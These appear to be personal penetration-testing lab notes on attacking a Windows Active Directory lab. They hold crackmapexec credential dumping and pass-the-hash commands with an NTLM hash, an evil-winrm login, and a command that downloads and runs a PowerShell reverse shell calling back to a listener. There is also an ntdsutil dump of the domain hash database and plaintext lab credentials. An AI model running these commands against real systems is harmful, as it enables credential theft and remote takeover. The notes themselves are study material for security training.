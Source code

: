 ```Bash
crackmapexec smb 192.168.146.10 -u offsec -p lab --lsa

```

```Bash
crackmapexec smb 192.168.146.10 -u Administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e --local-auth
```
#crackmapexec 

More lapsing..


```Bash
evil-winrm -u Administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e -i 192.168.146.10
```

#evilwinrm
https://github.com/Hackplayers/evil-winrm

Pass the has with #crackmapexec 

```Bash
crackmapexec smb 192.168.146.10 -u admin -H 2892d26cdf84d7a70e2eb3b9f05c425e --local-auth -X "IEX (New-Object Net.Webclient).DownloadString('http://xxxxxx/Invoke_PowershellTCP.ps1; Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444"
```

NTDS util to dump hashes. Grabs a copy of NTDS while windows is using it (because you cannot usually) by making a shadow copy of the C drive in memory and grabbing the relevant files.
#ntdsutil

```Bash
ntdsutil.exe "Activate instance ntds" "ifm" "create full C:\TEMP\ntds.copy"
```

```Bash
Copy-Item -FromSession $session1 "C:\TEMP\ntds.copy\Active Directo
ry\ntds.dit" -Destination .
```

## Day 5
#ad/kerberoasting #ad/spn_roasting

- Goal is to get DA, create a user and kerberoast the user. 

- Logged in as `sql_service:Qwerty09!`. 







## Hutch Day
Note from someone on uploading files
```Bash
curl -T '[file path to upload]' 'http://192.168.152.122/' -u fmcsorley:CrabSharkJellyfish192
```